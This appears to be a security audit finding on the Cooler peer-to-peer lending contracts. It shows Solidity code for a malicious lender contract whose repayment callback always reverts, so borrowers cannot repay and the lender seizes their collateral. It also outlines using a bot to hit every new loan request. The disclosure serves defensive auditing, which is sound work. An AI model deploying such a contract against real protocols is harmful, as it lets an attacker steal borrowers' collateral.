 ## Vulnerabilities Details

The only thing, which the attacker should do is implement a malicious contract, which implemnts `CoolerCallback` as follows:

```
contract MockMaliciousLender is CoolerCallback {
    constructor(address coolerFactory_) CoolerCallback(coolerFactory_) {}

    /// @notice Callback function that handles repayments. Override for custom logic.
    function _onRepay(uint256 loanID_, uint256 amount_) internal override {
        revert("You just got hacked.");
    }

    /// @notice Callback function that handles rollovers.
    function _onRoll(uint256 loanID_, uint256 newDebt, uint256 newCollateral) internal override {}

    /// @notice Callback function that handles defaults.
    function _onDefault(uint256 loanID_, uint256 debt, uint256 collateral) internal override {}
}
```

Now whenever a user create a Cooler for given pair and request a loan, the hacker clears the loan request from the malicious contract choosing `clearRequest(
        uint256 reqID_ : {attack could do it for all},
        bool repayDirect_ : {doesn't matter},
        bool isCallback_ : true
    )`
And now the attacker just have to wait for the loan to be defaulted which is guaranteed, because it is not possible to be repaid, because rapay function calls the malicious callback:

```
    function repayLoan(uint256 loanID_, uint256 repaid_) external returns (uint256) {
        Loan memory loan = loans[loanID_];
    	...
        // Log the event.
        factory().newEvent(loanID_, CoolerFactory.Events.RepayLoan, repaid_);

        // @audit If a lender is the atack contract, which will revert on repay, it will make
        // impossible for the borrower to repay his loan, which will lead to the loan being always
        // defaulted, which for sure will profit for the lender, because he will claim the defaulted
        // collateral, which value is greater, than the lended.
        // If necessary, trigger lender callback.
        if (loan.callback) CoolerCallback(loan.lender).onRepay(loanID_, repaid_);
        return decollateralized;
```

This is a serious attack with possibility to break the system, because there are no conditions, which attacker should depend on to run it.
The attack could be used on each p2p token pair, hacker could use a bot to track for when a user create a new cooler and request a loan, then immediately clear the request using the malicious contract. This will always benefit the attacker, because always the provided collateral is with greater value, than the lended asset.
